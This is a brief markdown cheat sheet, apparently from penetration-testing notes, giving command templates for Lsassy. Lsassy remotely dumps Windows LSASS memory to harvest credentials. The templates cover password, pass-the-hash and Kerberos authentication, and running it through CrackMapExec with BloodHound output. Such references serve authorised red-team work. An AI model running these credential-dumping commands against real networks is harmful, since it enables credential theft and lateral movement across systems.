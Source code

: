 # Lsassy

## Lsassy basic usage with password (ip or range)
```
lsassy -d <domain> -u <user> -p <password> <ip>
```

## Lsassy basic usage with hash (ip or range)
```
lsassy -v -u <user> -H <hash> <ip>
```

## Lsassy basic usage with kerberos (ip or range)
```
lsassy -d <domain> -u <user> -k <ip_range>
```

## Lsassy with cme
```
cme smb <ip> --local-auth -u <user> -H <hash> -M lsassy
```

## Lsassy with cme and bloodhound
```
cme smb <ip> --local-auth -u <user> -H <hash> -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=<neo4jpass>
```
